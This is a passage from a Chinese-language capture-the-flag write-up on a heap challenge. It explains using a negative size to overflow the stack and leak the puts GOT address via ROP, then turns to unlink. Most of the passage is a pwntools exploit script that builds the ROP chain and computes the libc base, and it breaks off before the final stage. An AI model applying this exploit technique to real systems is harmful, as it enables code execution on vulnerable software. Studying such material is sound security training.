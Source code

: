 当然，本着学习的态度，我们可以思考一下，除了这种方法还有没有其他的方法呢？在发布wp点赞第一的文章中，我看到了对整型溢出的利用。上面的方法不需要整型溢出就可以实现，而整型溢出为我们提供了另外一种获取libc加载地址的方法。

由于本程序没有canary，如果我们将size写成负数，就可以在栈上实现溢出。但是这里我有一点不太清楚：如果将size写为负数，那么malloc注定失败返回空指针。在将content写入栈时，dest的值仍然是0，为什么不会报段错误？在进行gdb调试时，read函数检测到size为-1时根本就不会中断等待输入，而在脚本中我们强制传过去了一段内容，不知这样会对程序产生什么样的影响，但memcpy这个函数注定是不会执行了。总之这种方式是有效的，使用ROP获取到了puts函数的got表地址。

之后还是通过unlink，只不过直接修改free的地址即可。

payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# libc = ELF('./ctflibc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')
libc_atoi_addr = libc.symbols['atoi']
libc_sys_addr = libc.symbols['system']
libc_puts_addr = libc.symbols['puts']

print(hex(libc_atoi_addr))
print(hex(libc_sys_addr))

chunk_addr_bss = 0x6020E0

elf = ELF('./pwn')
io = process('./pwn')
# io = remote('111.200.241.244', 54585)

def create(size, index, content):
	io.sendlineafter(b'$ ', b'1')
	io.sendlineafter(b'Input size\n', str(size).encode())
	io.sendlineafter(b'Input cun\n', str(index).encode())
	io.sendafter(b'Input content\n', content)

def delete(index):
	io.sendlineafter(b'$ ', b'2')
	io.sendlineafter(b'Chose one to dele\n', str(index).encode())

def edit(index, content):
	io.sendlineafter(b'$ ', b'3')
	io.sendlineafter(b'Chose one to edit\n', str(index).encode())
	io.sendafter(b'Input the content\n', content)

main_addr = 0x400C8C
pop_rdi_ret_addr = 0x400DA3
one_gadget_addr = 0x41EBC

io.recv()
io.sendline(b'CoLin')

payload = cyclic(0x80)
payload += b'\x00' * 8		# the dest address, not matter
payload += b'\x00' * 8		# not to change the index
payload += cyclic(0x8)		# size
payload += p64(pop_rdi_ret_addr) + p64(elf.got['puts'])	# pop the address of .got.plt(puts) to rdi
payload += p64(elf.plt['puts']) + p64(main_addr)		# return to start address of main

create(-1, 0, payload)

mem_puts_addr = u64(io.recv(6) + b'\x00\x00')
libc_base = mem_puts_addr - libc_puts_addr
mem_sys_addr = libc_base + libc_sys_addr

```